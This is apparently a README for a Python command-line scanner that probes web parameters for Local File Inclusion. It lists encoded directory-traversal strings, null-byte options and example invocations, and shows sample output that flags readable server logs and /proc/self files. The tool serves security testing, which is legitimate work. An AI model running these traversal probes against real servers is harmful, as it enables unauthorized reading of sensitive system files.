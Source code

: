 # fi-cyberspace-scan

Local File Inclusion CLI tool written in Python to speed up LFI checks. Similar to using Burp or ZAP, but less bulky and resource intensive. Plus it's in color for easy readability. File lists are included in the app, ranging from basic to verbose. Set different **Cyber-Attack Modes**, unique **Encoded Path Types** or turn on **Deep Directory Traversal** or **NULL Bytes**.

Valid LFI results are based on HTTP response codes, then HTTP response sizes. A non-200 will result in a failure, then a reflected byte size different from a pre-tested baseline will result in a valid find. Valid finds will be displayed in terminal output.

Before executing the attack, you'll be prompted with the set parameters, then can either confirm & execute OR exit the program. All parameters are preset besides **Target**. Adding these flags will update the set parameters, prior to execution.

___

## Usage:

```
-----------------------------Usage-------------------------------
Target URL:            -t --target
   Set the full HTTP Path/URI in which you'd like to test.
   LFI string will be appended to whatever you set as this argument.

Cyber-Attack Modes:    -m --mode  
   3: ICE-Breaker            Hardwired LFI Validator with Custom Encoded path types. Deepspace & %00 Disabled.
   2: Mole-IX                Intermediate attack list for even the best Cyberspace Operators.
   3: Kuang-Grade-Mark-11    Top notch verbose attack. Fires off a large list of interesting files.
   4: WIN-Construct          Targeted Windows OS attack. Includes common Windows file list.

Path Type:             -p --path 
   Set the directory traversal path type if it's encoded.
   Set as ONE instance in single quotes ('..%2f' , '..\\' , '%%32%65' ,etc) 
   Deafult is set to: ../ 

Deep Space Traversal:  -d --deepspace 
   Traverse deep within the filesystem at 9 directories deep.
   Without this flag set, the default 5 deep will run.
   Boolean flag. Default is FALSE.

Null-Byte:             -n --nullbyte 
   Appends a null-byte %00 to every request.
   Boolean flag. Default is FALSE.

Examples:
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?=
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m ICE-Breaker 
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m 4 -p '..252f' -n 
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m kuang-grade-mark-11 -d
-----------------------------------------------------------------
```
___

## Example

Here is a sample output for the [Kuang-Grade-Mark-11](http://www.antonraubenweiss.com/gibson/history/v1/glossary.html) mode, which tests a large directory list. In this case there are valid hits in the root **/** and 4 directories deep **../../../../** You could initially run the **ICE-Breaker** to verify valid path types.

```
root@case:/# python fi-cyberspace-scan.py -t http://172.28.227.5/cyber.php?space= -m 3
-----------------------------------------------------------------
'___ *  .    '   \|/     *   .   '      + .----. .  '  -*-    
|===|     ' __   -*-  FI Cyberspace-Scan  ||'''|_       ' ___ 
|= =|__'  _|==|_ /|\  ___     * .   __   _||= =|.| *   __|===|
|= =|::| |.|:|==|____|= =| .   ____|==| |::|= =|.|__ '|::|= =|
|=|=|::|_|.|:|==| :: |_.-`-.__|----|==|_|::|=|=|.|::|_|::|= =|
-----------------------Hardwired Options-------------------------
TARGET URL                   : http://172.28.227.5/cyber.php?space=
CYBER ATTACK MODE            : Kuang-Grade-Mark-11
PATH TYPE                    : ../
DEEP SPACE TRAVERSAL         : False
NULL-BYTE %00                : False
-----------------------------------------------------------------
DO NOT USE AGAINST UNAUTHORIZED INTRUSION COUNTERMEASURES ELECTRONICS
Execute Cyberspace Run? [Y/n]: 

-----------------------------------------------------------------
It seems  448  is the common reflected byte size.
Digging into unique reflection sizes.
-----------------------------------------------------------------
[+] - Something interesting found with /var/log/messages in 
     --Path:  /
     --Path:  ../../../../
[+] - Something interesting found with var/log/mail.log in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/maillog
[+] - Something interesting found with var/log/apache2/access.log in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/postgresql/postgresql-10-main.log
[+] - Something interesting found with var/log/apache2/error.log in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/httpd/access_log
[-] - Nothing found in var/log/httpd/error.log
[+] - Something interesting found with proc/self/cmdline in 
     --Path:  /
     --Path:  ../../../../
[+] - Something interesting found with proc/self/stat in 
     --Path:  /
     --Path:  ../../../../
[-] - Nothing found in var/log/apache2/error_log
[-] - Nothing found in var/log/httpd/access.log

---snip---
```
